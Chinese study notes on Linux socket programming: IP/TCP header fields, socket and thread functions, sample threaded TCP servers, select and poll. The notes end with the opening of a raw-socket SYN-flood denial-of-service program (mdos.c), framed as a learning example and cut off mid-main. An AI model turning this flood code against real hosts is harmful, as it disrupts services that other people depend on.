 * 网络通信三要素
- IP地址

- 端口号

- 传输协议

* tcp与ip首部格式
[[Network_Programing/IP_Header.jpg]]

[[Network_Programing/IP.gif]]

如图，一个刻度表示1个二进制位（比特）。
1-1.版本4位，表示版本号，目前最广泛的是4=B0100，即常说的IPv4；相信IPv6以后会广泛应用，它能给世界上每个纽扣都分配
       一个IP地址。

1-2.头长4位，数据包头部长度。它表示数据包头部包括多少个32位长整型，也就是多少个4字节的数据。无选项则为5（红色部分）。

1-3.服务类型，包括8个二进制位，每个位的意义如下：
       过程字段：3位，设置了数据包的重要性，取值越大数据越重要，取值范围为：0（正常）~ 7（网络控制）
       延迟字段：1位，取值：0（正常）、1（期特低的延迟）
       流量字段：1位，取值：0（正常）、1（期特高的流量）
       可靠性字段：1位，取值：0（正常）、1（期特高的可靠性）
       成本字段：1位，取值：0（正常）、1（期特最小成本）
       保留字段：1位 ，未使用
1-4.包裹总长16位，当前数据包的总长度，单位是字节。当然最大只能是65535，及64KB。

2-1.重组标识16位，发送主机赋予的标识，以便接收方进行分片重组。

2-2.标志3位，他们各自的意义如下：
       保留段位(2)：1位，未使用
       不分段位(1)：1位，取值：0（允许数据报分段）、1（数据报不能分段）
       更多段位(0)：1位，取值：0（数据包后面没有包，该包为最后的包）、1（数据包后面有更多的包）

2-3.段偏移量13位，与更多段位组合，帮助接收方组合分段的报文，以字节为单位。

3-1.生存时间8位，经常ping命令看到的TTL（Time To Live）就是这个，每经过一个路由器，该值就减一，到零丢弃。

3-2.协议代码8位，表明使用该包裹的上层协议，如TCP=6，ICMP=1，UDP=17等。

3-3.头检验和16位，是IPv4数据包头部的校验和。

4-1.源始地址，32位4字节，我们常看到的IP是将每个字节用点（.）分开，如此而已。

5-1.目的地址，32位，同上。

6-1.可选选项，主要是给一些特殊的情况使用，往往安全路由会当作攻击而过滤掉，普联（TP_LINK）的TL-ER5110路由就能这么做。

7-1.用户数据。

[[Network_Programing/TCP.gif]]

1-1.源始端口16位，范围当然是0-65535啦。

1-2.目的端口，同上。

2-1.数据序号32位，TCP为发送的每个字节都编一个号码，这里存储当前数据包数据第一个字节的序号。

3-1.确认序号32位，为了安全，TCP告诉接受者希望他下次接到数据包的第一个字节的序号。

4-1.偏移4位，类似IP，表明数据距包头有多少个32位。

4-2.保留6位，未使用，应置零。

4-3.紧急比特URG—当URG＝1时，表明紧急指针字段有效。它告诉系统此报文段中有紧急数据，应尽快传送(相当于高优先级的数据)。

4-3.确认比特ACK—只有当ACK＝1时确认号字段才有效。当ACK＝0时，确认号无效。参考TCP三次握手

4-4.复位比特RST(Reset) —当RST＝1时，表明TCP连接中出现严重差错（如由于主机崩溃或其他原因），必须释放连接，然后再重新建立运输连接。参考TCP三次握手

4-5.同步比特SYN—同步比特SYN置为1，就表示这是一个连接请求或连接接受报文。参考TCP三次握手

4-6.终止比特FIN(FINal)—用来释放一个连接。当FIN＝1时，表明此报文段的发送端的数据已发送完毕，并要求释放运输连接。

4-7.窗口字段16位，窗口字段用来控制对方发送的数据量，单位为字节。TCP连接的一端根据设置的缓存空间大小确定自己的接收窗口大小，然后通知对方以确定对方的发送窗口的上限。

5-1.包校验和16位，包括首部和数据这两部分。在计算检验和时，要在TCP报文段的前面加上12字节的伪首部。

5-2.紧急指针16位，紧急指针指出在本报文段中的紧急数据的最后一个字节的序号。

6-1.可选选项24位，类似IP，是可选选项。

6-2.填充8位，使选项凑足32位。

7-1.用户数据……

* linux套接字类型
- Socket
  - INET:  IPv4
  - INET6: IPv6
  - SOCK_STREAM
    - 流式套接字,提供面向连接,可靠的数据传输服务,数据按照字节流,按照顺序收发,保证数据在传输过程中无丢失,无冗余.TCP协议支持该套接字
  - SOCK_DGRAM
    - 数据报套接字,提供面向无连接的服务,数据收发无序,不能保证数据的准确到达.UDP协议支持该套接字
  - SOCK_RAW
    - 原始套接字.允许对低于传输层的协议或物理网络直接访问,例如可以接受和发送ICMP报.常用于检测新的协议

- TLI

* 套接字基础函数

** 字节排序函数
#+BEGIN_SRC c
#include <netinet/in.h>
uint16_t htons(uint16_t hosts);
//将16位的短整形数,从主机字节序转换为网络字节序
uint32_t htonl(uint32_t hostl);
//将32位的长整形数,从主机字节序转换为网络字节序
uint16_t ntohs(uint16_t nets);
//将16位的短整形数,从网络字节序转换为主机字节序
uint32_t ntohl(uint32_t netl);
//将16位的长整形数,从网络字节序转换为主机字节序

#+END_SRC

** 字节操纵函数
#+BEGIN_SRC c
#include <string.h>
void bzero(void *dest, size_t len);
//将目标中指定数目的字节置为0,经常用此函数来对套接字地址结构进行初始化
void bcopy(const void *src, void *dest, size_t len);
//将指定数目字节从源拷贝到目标
void bcmp(const void *src, void *dest, size_t len);
//比较源和目标两个字符串,若相同返回值为0,否则返回非0

void *memset(void *dest, int x, size_t len);
//将目标地址开始len个长度设为x
void *memcpy(void *dest, const void *src, size_t len);
//当源与目标重叠时, bcopy能够正确处理,而memcpy的操作结果不可知
int memcmp(const void *str1, const void *str2, size_t len);
//相同返回0,str1大于str2则返回大于0,否则小于0
#+END_SRC

** IP地址转换函数
#+BEGIN_SRC c
#include <arpa/inet.h>
in_addr_t inet_addr(const char *str);
//将字符串形式的IP地址转换成32位二进制的IP地址.str指向字符串形式的IP地址.这个函数不对IP地址的有效性进行验证,所有2^32个可能的二进制值都认为是有效的IP地址.该函数无法处理点分十进制的IP地址:255.255.255.255无法由此函数处理
int inet_aton(const char *str, struct in_addr *numstr);
//进行相同的转化.str指向字符串形式的IP地址,numstr指向转换后点分十进制的IP地址.成功返回1失败返回0
char *int_ntoa(struct in_addr inaddr);
//将一个32位网络字节序的二进制IP地址转换成相应的点分十进制IP地址.这个函数的参数是一个结构体.函数返回值所指向的串还在静态内存中,所以函数是不可重入的
以上函数只能处理IPv4

#include <arpa/inet.h>
//p代表地址的表达格式通常是ASCII字符串,n代表数值格式,是存在套接字地址结构中的二进制值.
//family参数是指操作的地址族,IPv4是AF_INET,IPv6是AF_INET6
int inet_pton(int family, const char *str, void *numstr);
//将str所指的字符串形式的IP地址,转换为网络字节序的二进制IP地址,并用指针numstr存储.成功返回1
const char *inet_ntop(int family, const void *numstr, char *str, size_t len);
//进行想法操作,将numstr所值的二进制IP地址转换成字符串形IP地址,并用指针str存储,参数len是目标的大小
#+END_SRC

** isfdtype函数
#+BEGIN_SRC c
#include <sys/stat.h>
int isfdtype(int fd, int fdtype);
//测试操作符fd是不是fdtype指定的类型.

#+END_SRC

* 网络字节序和主机字节序转换函数
见上

* 并发技术
- 进程
- 线程
- I/O多路复用

* 父进程先于子进程结束和晚于子进程结束差异
一个现有进程可以调用fork函数创建一个新进程。由fork创建的新进程被称为子进程（child process）。fork函数被调用一次但返回两次。两次返回的唯一区别是子进程中返回0值而父进程中返回子进程ID。

1）父进程先于子进程终止

     当父进程先退出时，系统会让init进程接管子进程，该子线程成为了孤儿进程。

2）子进程先于父进程终止

    分为2种情况：

       a）正常情况：父进程调用了wait函数 （非父子进程则用waitpid函数），此时父进程会等待子进程结束。

       b）父进程又没有调用wait函数 （非父子进程则未调用waitpid函数），此种情况子进程进入僵死状态即僵尸进程，并且会一直保持下去直到系统重启。子进程处于僵死状态时，内核只保存进程的一些必要信息以备父进程所需。此时子进程始终占有着资源，同时也减少了系统可以创建的最大进程数。

    僵死状态：一个已经终止、但是其父进程尚未对其进行善后处理(获取终止子进程的有关信息，释放它仍占有的资源)的进程被称为僵死进程(zombie)。ps命令将僵死进程的状态打印为Z 。
* 僵尸进程
孤儿进程：一个父进程退出，而它的一个或多个子进程还在运行，那么那些子进程将成为孤儿进程。孤儿进程将被init进程(进程号为1)所收养，并由init进程对它们完成状态收集工作。

僵尸进程：一个进程使用fork创建子进程，如果子进程退出，而父进程并没有调用wait或waitpid获取子进程的状态信息，那么子进程的进程描述符仍然保存在系统中。这种进程称之为僵死进程。

* 多线程(tcp和udp) 并发服务器编程模板以及例程

** TCP

*** 相关函数

#+BEGIN_SRC c
#include <sys/types.h>
#include <sys/socket.h>

ssize_t recv(int sockfd, void *buf, size_t len, int flags);
#+END_SRC

*** 例子程序
Server:
#+BEGIN_SRC c
#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <pthread.h>

#define PORT 1234
#define BACKLOG 5
#define MAXDATASIZE 1000

void process_cli(int connfd, struct sockaddr_in client);
void *function(void *arg);
struct ARG {
    int connfd;
    struct sockaddr_in client;
};

void main ()
{
    int listenfd, connfd;
    pthread_t tid;
    struct ARG *arg;
    struct sockaddr_in server;
    struct sockaddr_in client;
    socklen_t len;
    if((listenfd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
        perror("Creating socket failed.\n");
        exit(1);
    }

    int opt = SO_REUSEADDR;
    setsockopt(listenfd, SOL_SOCKET, SO_REUSEADDR, &opt, sizeof(opt));
    bzero(&server, sizeof(server));
    server.sin_family = AF_INET;
    server.sin_port = htons(PORT);
    server.sin_addr.s_addr = htonl(INADDR_ANY);
    if(bind(listenfd, (struct sockaddr *)&server, sizeof(server)) == -1){
        perror("Bind() error.\n");
        exit(1);
    }
    if(listen(listenfd, BACKLOG) == -1){
        perror("listen() error.\n");
    }
    len = sizeof(client);
    while(1){
        if((connfd = accept(listenfd, (struct sockaddr *)&client, &len)) == -1){
            perror("accept() error.\n");
            exit(1);
        }
        arg = (struct ARG*)malloc(sizeof(struct ARG));
        arg->connfd = connfd;
        memcpy((void *)&arg->client, &client, sizeof(client));
        if(pthread_create(&tid, NULL, function, (void*)arg)){
            perror("pthread_create error.\n");
            exit(1);
        }

    }
    close(listenfd);
}

void process_cli(int connfd, struct sockaddr_in client){
    int num;
    char recvbuf[MAXDATASIZE], sendbuf[MAXDATASIZE], cli_name[MAXDATASIZE];
    printf("You got a connection from %s.\n", inet_ntoa(client.sin_addr));
    num = recv(connfd, cli_name, MAXDATASIZE, 0);
    if(num == 0){
        close(connfd);
        printf("Client disconnected.\n");
        return;
    }
    cli_name[num - 1] = '\0';
    printf("Client's name is %s.\n", cli_name);
    while(num = recv(connfd, recvbuf, MAXDATASIZE, 0)){
        recvbuf[num] = '\0';

        printf("Received client(%s) message: %s\n", cli_name, recvbuf);
        int i;
        for(i = 0; i < num -1; i++){
            // if((recvbuf[i] >= 'a' && recvbuf[i] <='z')||(recvbuf[i] >= 'A'&& recvbuf[i] <= 'Z')){
            //     recvbuf[i] = recvbuf[i] + 3;
            //     if((recvbuf[i] >'Z' && recvbuf[i] <= 'Z'+3) || (recvbuf[i] > 'z')){
            //         recvbuf[i] = recvbuf[i] - 26;
                // }
            // }
            sendbuf[i] = recvbuf[i];
        }
        sendbuf[num - 1] = '\0';
        send(connfd, sendbuf, strlen(sendbuf), 0);

    }
    close(connfd);
}

void *function(void *arg){
    struct ARG *info;
    info = (struct ARG*)arg;
    process_cli(info->connfd, info->client);
    free(arg);
    pthread_exit(NULL);
}


#+END_SRC


** UDP

*** 相关函数

#+BEGIN_SRC c
#include <sys/types.h>
#include <sys/socket.h>

ssize_t recvfrom(int sockfd, void *buf, size_t len, int flags, struct sockaddr *from, size_t *addrlen);
ssize_t sendto(int sockfd, const void *buf, size_t len, int flags, const struct sockaddr *to, int addrlen);
#+END_SRC

* 线程基础函数

#+BEGIN_SRC c
#include <pthread.h>
int pthread_create(pthread_t *tid, const pthread_attr_t *attr, void *(func)(void *), viod *arg);
//如果新线程创建成功,参数tid返回新生成的线程ID.一个进程中的每个线程都由一个线程ID标识,其类型为pthread_t, attr指向线程属性指针.每个线程有很多属性.通常将attr的参数值设置为NULL,这时使用系统的默认属性.
//创建完线程后, 需要说明它将执行的函数.函数地址由func制定,该参数必须是个静态函数,它只有一个通用指针作为参数,并返回一个通用指针.该执行函数的调用参数是由arg指定,arg是一个通用指针,用于往func函数中传递参数.如果需要传递多个参数,必须将它们打包成一个结构,然后让arg指向该结构

int pthread_join(pthread_t tid, void **status);
//函数与进程的waitpid函数功能类似,等待一个线程终止
//参数tid指定所等待的线程ID.该函数必须指定要等待的线程,不能等待任一个线程结束.要求等待的线程必须是当前进程的成员,并且不是分离的线程或者守护线程.几个线程不能同时等待一个线程完成,如果其中一个成功调用pthread_jion函数,其他线程将返回ESRCH错误,如果等待的线程已经终止,则该函数立即返回.如果参数status指针非空,则指向终止线程的推出状态值.调用成功返回0

int pthread_detach(pthread_t tid);
//tid为要分离线程的ID,函数成功返回0

pthread_t pthread_self(void);
//函数返回调用函数的线程ID

void pthread_exit(void *status);
//函数用于终止当前线程,并返回状态值,如果当前线程是可联合的,则其推出状态将保留
#+END_SRC

* 分离线程

线程分为两类:可联合的和分离的,默认情况下线程都是可联合的.
可联合的线程终止时,其线程ID和终止状态将保留,直到线程调用pthread_jion函数.
而分离线程退出后,系统将释放其所有资源,其他线程不能等待其终止.如果一个线程需要知道另一个线程什么时候终止,最好保留第二个线程的可联合性.

* 互斥锁作用
在编程中，引入了对象互斥锁的概念，来保证共享数据操作的完整性。每个对象都对应于一个可称为" 互斥锁" 的标记，这个标记用来保证在任一时刻，只能有一个线程访问该对象。

* 多线程中传参数的几种方法有何差异

* 线程安全性TSD编程例程

Server:

#+BEGIN_SRC c

#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <pthread.h>

#define PORT 1234
#define BACKLOG 5
#define MAXDATASIZE 1000

void process_cli(int connfd, struct sockaddr_in client);
void savedata_r(char* recvbuf, int len, char* cli_data);
void *function(void *arg);
struct ARG {
    int connfd;
    struct sockaddr_in client;
};

pthread_key_t key;
pthread_once_t once = PTHREAD_ONCE_INIT;

static void destructor(void *ptr){
    free(ptr);
}

static void createkey_once(void){
    pthread_key_create(&key, destructor);
}

struct ST_DATA{
    int index;
};


void main ()
{
    int listenfd, connfd;
    pthread_t tid;
    struct ARG *arg;
    struct sockaddr_in server;
    struct sockaddr_in client;
    socklen_t len;
    if((listenfd = socket(AF_INET, SOCK_STREAM, 0)) == -1){
        perror("Creating socket failed.\n");
        exit(1);
    }

    int opt = SO_REUSEADDR;
    setsockopt(listenfd, SOL_SOCKET, SO_REUSEADDR, &opt, sizeof(opt));
    bzero(&server, sizeof(server));
    server.sin_family = AF_INET;
    server.sin_port = htons(PORT);
    server.sin_addr.s_addr = htonl(INADDR_ANY);
    if(bind(listenfd, (struct sockaddr *)&server, sizeof(server)) == -1){
        perror("Bind() error.\n");
        exit(1);
    }
    if(listen(listenfd, BACKLOG) == -1){
        perror("listen() error.\n");
    }
    len = sizeof(client);
    while(1){
        if((connfd = accept(listenfd, (struct sockaddr *)&client, &len)) == -1){
            perror("accept() error.\n");
            exit(1);
        }
        arg = (struct ARG*)malloc(sizeof(struct ARG));
        arg->connfd = connfd;
        memcpy((void *)&arg->client, &client, sizeof(client));
        if(pthread_create(&tid, NULL, function, (void*)arg)){
            perror("pthread_create error.\n");
            exit(1);
        }

    }
    close(listenfd);
}

void process_cli(int connfd, struct sockaddr_in client){
    int num;
    char cli_data[MAXDATASIZE];
    char recvbuf[MAXDATASIZE], sendbuf[MAXDATASIZE], cli_name[MAXDATASIZE];
    char tbuf[MAXDATASIZE];
    printf("You got a connection from %s.\n", inet_ntoa(client.sin_addr));
    num = recv(connfd, cli_name, MAXDATASIZE, 0);
    if(num == 0){
        close(connfd);
        printf("Client disconnected.\n");
        return;
    }

    cli_name[num - 1] = '\0';
    printf("Client's name is %s.\n", cli_name);
    while(num = recv(connfd, recvbuf, MAXDATASIZE, 0)){
        //recvbuf[num - 1] = '\0';

        printf("Received client(%s) message: %s\n", cli_name, recvbuf);
        savedata_r(recvbuf, num, cli_data);
        int i = 0;
        tbuf[num] = '\0';
        for(i = 0; i < num; i++)
        {
            tbuf[num-i-1] = recvbuf[i];
        }
        //printf("\nnum:%d\n", num);
        //printf("\ntbuf:%s\n", tbuf);

        send(connfd, tbuf, strlen(tbuf), 0);

    }
    close(connfd);
    printf("Client(%s) closed connfd connection.\n User's data:%s.\n", cli_name, cli_data);
}

void *function(void *arg){
    struct ARG *info;
    info = (struct ARG*)arg;
    process_cli(info->connfd, info->client);
    free(arg);
    pthread_exit(NULL);
}

void savedata_r(char* recvbuf, int len, char* cli_data){
    struct ST_DATA* data;
    pthread_once(&once, createkey_once);
    if((data = (struct ST_DATA*)pthread_getspecific(key)) == NULL){
        data = (struct ST_DATA*)malloc(sizeof(struct ST_DATA));
        pthread_setspecific(key, data);
        data->index = 0;
    }
    int i = 0;
    while (i < len - 1){
        cli_data[data->index++] = recvbuf[i];
        i++;
    }
    cli_data[data->index] = '\0';
    printf("%s.\n", cli_data);
}
#+END_SRC

* I/O复用技术和相关函数
- 阻塞I/O
- 非阻塞I/O
- I/O复用
- 信号驱动I/O(同步I/O)
- 异步I/O

** 相关函数
*** select
#+BEGIN_SRC c
  #include <sys/select.h>
  #include <sys/time.h>
  int select(int maxfdp, fd_set *readset, fd_set *writeset, fd_set *execepset, const struct timeval *timeout);

  struct timeval{
      long tv_sec;
      long tv_usec;
  };
  /*
    timeval 结构可以提供秒数,毫秒数成员.
    这个timeval有三种可能
    永远等待下去:仅在有一个描述字准备好I/O时才返回,因此我们可以将参数timeout设置为空指针
    等待固定时间:在有一个描述字准备好I/O时才返回,但不超过由timeout参数所指定timeval结构中指定的秒数和微秒数
    根本不用等待:检查描述字后立即返回,这称为轮询
    在前两种情况的等待中,如果进程捕获了一个人信号,并从信号处理程序返回,那么等待一般被中断.
    参数readset,writeset和execpset指定让内核测试读,写,异常条件的描述字.如果不感兴趣,可将其设置为NULL

    select函数使用描述字集为参数readset(writeset或execptset)指定多个描述字.描述字集是一个整数数组,每个数中的每一个对应于一个描述字,例如32位整数,则数组的第一个元素对应0-31描述字,第二个元素对应于32-63描述字.下面介绍下面几个描述字的宏
  ,*/

  void FD_ZERO(fd_set *fdset); //将所有位设为0
  void FD_SET(int fd, fd_set *fdset); //将fd位设为1
  void FD_CLR(int fd, fd_set *fdset); //将fd位设为0
  int FD_ISSET(int fd, fd_set *fdset); //检测fd位是否为1

  //example
  fd_set fdset; //声明fdset
  FD_ZERO(&fdset); //初始化fdset
  FD_SET(1, &fdset); //将fd为1的描述字设为1
  FD_SET(2, &fdset); //将fd为2的描述字设为1
  FD_CLR(3, &fdset); //将fd为3的描述字设为0
#+END_SRC

*** shutdown
以前终止连接的方式是调用close函数,该函数并不进行真正的四分组终止序列,而是将描述字的访问次数减1,仅在此计数为0的时候才关闭套接字,发送TCP的正常连接终止序列,在此close有两个限制可以由本节介绍的函数shutdown来避免
- close将描述字的访问次数减1,仅在此计数为0的时候才关闭套接字.用shutdown可以激发TCP的正常连接终止序列,而不管访问计数.
- close终止了数据传输的两个方向:读和写,由于TCP是全双工的,有很多时候,要通知另一端已经完成了数据发送,即使那一端仍有许多数据要发送也是如此.shutdown函数可以仅仅关闭连接的读,写或两个方向都关闭

#+BEGIN_SRC c
#include <sys/socket.h>
int shutdown(int sockfd, int howto);
/*
返回0成功
sockfd为要关闭的套接口描述字
howto为以下常值:
SHUT_RD:关闭连接读的这一半,不再接受套接口中的数据,而留在套接口接受缓冲区中的数据都作废.进程不再能够对套接字执行任何读函数.调用此函数后,TCP套接口接受的任何数据都被确认,但数据本身扔掉
SHUT_WD:关闭连接写的这一半,在TCP场合下,这种情况称为半关闭(half_close).当前留在套接口发送缓冲区的数据都被发送,后跟正常的TCP连接终止序列,进程不能再执行对套接口的任何写函数.
*/

#+END_SRC

*** poll

#+BEGIN_SRC c
  #include <poll.h>
  int poll(struct pollfd *fdarray, unsigned long nfds, int timeout);
  //返回准备好的描述字个数, 0---超时, 1---出错
  /*
  第一个参数是指向结构数组第一个元素的指针,每个数组的元素都是一个pollfd结构,它规定了为测试一给定描述字fd的一些条件.下面是polled结构的源码
  ,*/
  struct pollfd{
      int fd;
      short events;
      shortevent;
  };

  /*
  要测试的条件由成员events规定,函数在相应的revents成员中返回描述字的状态(每个描述字有两个变量,一个为调用值,一个为结果,以此避免使用值-结果参数.回想一下,函数select的中间三个参数都是值-结果参数).这两个成员中的每一个都由指定某个条件的一位或多位组成.下面列出了用于指定标志位events并测试标志位revents的一些常值:
  POLLIN: 普通或优先级带数据可读,revent&events
  POLLRDNORN: 普通数据可读,revent&events
  ROLLRDBAD: 优先级带数据可读,revent&events
  POLLPRI: 高优先级带数据可读,revent&events
  POLLOUT: 普通或优先级带数据可写,revent&events
  POLLWRNORM: 普通数据可写,revent&events
  POLLWRBAND: 优先级带数据可写,revent&events
  POLLERR: 发生错误,revents
  POLLHUP: 发生挂起,revents
  POLLNVAL: 套接字不是一个打开的文件,revents
  其中,前4个常值是处理套接口输入的,中间3个是处理输出的,而最后3个是处理错误的,因此只能在revents中返回.在流设备中,将数据分为普通,优先级,高优先级3种.

  对于TCP和UDP套接口,将引起poll返回的revents具体化:
  所有正规TCP数据和UDP数据都被认为是普通数据
  TCP的带外数据被认为是优先级带数据
  当TCP连接的读的这一半关闭时,(例如收到一个FIN),这也认为是普通数据,且后续的读操作将返回0.TCP连接存在错误既可认为是普通数据,也可认为是POLLERR错误.无论那种情况,后续读操作将返回-1,并设置error,这就是处理了诸如接收RST或者超时等条件
  在监听套接口上新连接的可用性既可认为是普通数据,也可认为是优先级数据,大多数实现都将其做为普通数据考虑

  而第二个参数,结构数组中元素的个数是由参数nfds来规定的,参数timeout同select中timeout功能一样,指定函数返回前等待多少时间
  大于0,等待知道数目的时间
  等于0,立即返回,不阻塞
  INFTIM,永远等待
  ,*/

#+END_SRC

* 非阻塞IO工作模式

阻塞I/O和非阻塞I/O的区别: 应用程序的调用是否理解返回

* 同步io 与异步io

同步io
- 阻塞I/O
- 非阻塞I/O
- I/O复用
- 信号驱动I/O

异步io
- 异步I/O

同步I/O和异步I/O的区别在于: 数据访问的时候是否阻塞


* 域名解析相关函数

* 获取本地址和远程地址方法


** gethostname
#+BEGIN_SRC c
gethostname(char *name, size_t namelen)
#+END_SRC
返回当前主机的名字,name是指向主机名存储位置的指针,namelen是此数组的大小

** gethostbyname
#+BEGIN_SRC c
#include <netdb.h>
struct hostent *gethostbyname(const char *hostname)
#+END_SRC
该函数如果执行成功就返回一个指向结构hostent的指针,如果失败返回空指针
#+BEGIN_SRC c
  #include <netdb.h>
  struct hostent {
      char *h_name; // 主机的正式名称
      char **h_aliases; // 主机的别名列表
      int h_addrtype; //主机地址类型
      int h_length; //主机地址长度
      char **h_addr_list; //主机IP地址列表
  };
  #define haddr h_addr_list[0] // 在列表中的第一个地址

#+END_SRC


* 原始套接字作用以及创建方式
基于原始套接字编程

在开发面向连接的TCP和面向无连接的UDP程序时，我们所关心的核心问题在于数据收发层面，数据的传输特性由TCP或UDP来保证：

[SOCK_RAW/raw_1.jpg]

也就是说，对于TCP或UDP的程序开发，焦点在Data字段，我们没法直接对TCP或UDP头部字段进行赤裸裸的修改，当然还有IP头。换句话说，我们对它们头部操作的空间非常受限，只能使用它们已经开放给我们的诸如源、目的IP，源、目的端口等等。

今天我们讨论一下原始套接字的程序开发，用它作为入门协议栈的进阶跳板太合适不过了。OK闲话不多说，进入正题。

原始套接字的创建方法也不难：socket(AF_INET, SOCK_RAW, protocol)。

重点在protocol字段，这里就不能简单的将其值为0了。在头文件netinet/in.h中定义了系统中该字段目前能取的值，注意：有些系统中不一定实现了netinet/in.h中的所有协议。源代码的linux/in.h中和netinet/in.h中的内容一样。

[SOCK_RAW/raw_2.jpg]

我们常见的有IPPROTO_TCP，IPPROTO_UDP和IPPROTO_ICMP，在博文“(十六)洞悉linux下的Netfilter&iptables：开发自己的hook函数【实战】(下) ”中我们见到该protocol字段为IPPROTO_RAW时的情形，后面我们会详细介绍。

用这种方式我就可以得到原始的IP包了，然后就可以自定义IP所承载的具体协议类型，如TCP，UDP或ICMP，并手动对每种承载在IP协议之上的报文进行填充。接下来我们看个最著名的例子DOS攻击的示例代码，以便大家更好的理解如何基于原始套接字手动去封装我们所需要TCP报文。

先简单复习一下TCP报文的格式，因为我们本身不是讲协议的设计思想，所以只会提及和我们接下来主题相关的字段，如果想对TCP协议原理进行深入了解那么《TCP/IP详解卷1》无疑是最好的选择。

[SOCK_RAW/raw_3.jpg]

我们目前主要关注上面着色部分的字段就OK了，接下来再看看TCP3次握手的过程。TCP的3次握手的一般流程是：

(1) 第一次握手：建立连接时，客户端A发送SYN包(SEQ_NUMBER=j)到服务器B，并进入SYN_SEND状态，等待服务器B确认。

(2) 第二次握手：服务器B收到SYN包，必须确认客户A的SYN(ACK_NUMBER=j+1)，同时自己也发送一个SYN包(SEQ_NUMBER=k)，即SYN+ACK包，此时服务器B进入SYN_RECV状态。

(3) 第三次握手：客户端A收到服务器B的SYN＋ACK包，向服务器B发送确认包ACK(ACK_NUMBER=k+1)，此包发送完毕，客户端A和服务器B进入ESTABLISHED状态，完成三次握手。

至此3次握手结束，TCP通路就建立起来了，然后客户端与服务器开始交互数据。上面描述过程中，SYN包表示TCP数据包的标志位syn=1，同理，ACK表示TCP报文中标志位ack=1，SYN+ACK表示标志位syn=1和ack=1同时成立。

原始套接字还提供了一个非常有用的参数IP_HDRINCL：

1、当开启该参数时：我们可以从IP报文首部第一个字节开始依次构造整个IP报文的所有选项，但是IP报文头部中的标识字段(设置为0时)和IP首部校验和字段总是由内核自己维护的，不需要我们关心。

2、如果不开启该参数：我们所构造的报文是从IP首部之后的第一个字节开始，IP首部由内核自己维护，首部中的协议字段被设置成调用socket()函数时我们所传递给它的第三个参数。

 开启IP_HDRINCL特性的模板代码一般为：
#+BEGIN_SRC c
  const int on =1;
  if (setsockopt (sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on)) < 0){
      printf("setsockopt error!\n");
  }
#+END_SRC
所以，我们还得复习一下IP报文的首部格式：

[SOCK_RAW/raw_4.jpg]

同样，我们重点关注IP首部中的着色部分区段的填充情况。

有了上面的知识做铺垫，接下来DOS示例代码的编写就相当简单了。我们来体验一下手动构造原生态IP报文的乐趣吧

#+BEGIN_SRC c
//mdos.c
#include <stdlib.h>
#include <stdio.h>
#include <errno.h>
#include <string.h>
#include <unistd.h>
#include <netdb.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <linux/tcp.h>

//我们自己写的攻击函数
void attack(int skfd,struct sockaddr_in *target,unsigned short srcport);
//如果什么都让内核做，那岂不是忒不爽了，咱也试着计算一下校验和。
unsigned short check_sum(unsigned short *addr,int len);

int main(int argc,char** argv){
        int skfd;
        struct sockaddr_in target;
        struct hostent *host;
        const int on=1;
        unsigned short srcport;

        if(argc!=2)
        {
                printf("Usage:%s target dstport srcport\n",argv[0]);
                exit(1);
        }

        bzero(&target,sizeof(struct sockaddr_in));
        target.sin_family=AF_INET;
        target.sin_port=htons(atoi(argv[2]));

        if(inet_aton(argv[1],&target.sin_addr)==0)
        {
                host=gethostbyname(argv[1]);
                if(host==NULL)
                {
                        printf("TargetName Error:%s\n",hstrerror(h_errno));
                        exit(1);
                }
                target.sin_addr=*(struct in_addr *)(host->h_addr_list[0]);
        }

        //将协议字段置为IPPROTO_TCP，来创建一个TCP的原始套接字
        if(0>(skfd=socket(AF_INET,SOCK_RAW,IPPROTO_TCP))){
                perror("Create Error");
                exit(1);
        }

        //用模板代码来开启IP_HDRINCL特性，我们完全自己手动构造IP报文
